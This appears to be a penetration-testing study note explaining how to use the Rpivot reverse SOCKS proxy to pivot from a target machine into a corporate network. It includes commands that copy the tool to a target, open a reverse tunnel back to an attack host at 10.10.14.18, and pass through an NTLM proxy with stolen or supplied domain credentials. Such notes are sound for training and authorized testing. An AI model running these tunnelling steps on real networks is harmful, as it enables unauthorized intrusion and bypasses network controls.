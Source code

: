 ```yaml
---
tags:
  - Exploitation
  - Tunnelling
  - Tooling
  - SSHTunnelling
---
```

[Rpivot](https://github.com/klsecservices/rpivot) is a reverse SOCKS proxy tool written in Python for SOCKS tunnelling. Rpivot binds a machine inside a corporate network to an external server and exposes the client's local port on the server-side.

![[77.webp]]

We can start our rpivot SOCKS proxy server using the below command to allow the client to connect on port 9999 and listen on port 9050 for proxy pivot connections.

### Install Rpivot

```shell-session
git clone https://github.com/klsecservices/rpivot.git
```


```shell-session
sudo apt-get install python2.7
```

### Usage

#### Running server.py from the Attack Host

```shell-session
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

Before running `client.py` we will need to transfer Rpivot to the target. We can do this using this SCP command:

```shell-session
scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```

#### Running client.py from Pivot Target

```shell-session
python2.7 client.py --server-ip 10.10.14.18 --server-port 9999
```

We will configure proxychains to pivot over our local server on 127.0.0.1:9050 on our attack host, which was initially started by the Python server.

 Some organizations have [HTTP-proxy with NTLM authentication](https://docs.microsoft.com/en-us/openspecs/office_protocols/ms-grvhenc/b9e676e7-e787-4020-9840-7cfe7c76044a) configured with the Domain Controller. In such cases, we can provide an additional NTLM authentication option to Rpivot to authenticate via the NTLM proxy by providing a username and password. In these cases, we could use Rpivot's client.py in the following way:

#### Connecting to a Web Server using HTTP-Proxy & NTLM Auth

```shell-session
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```





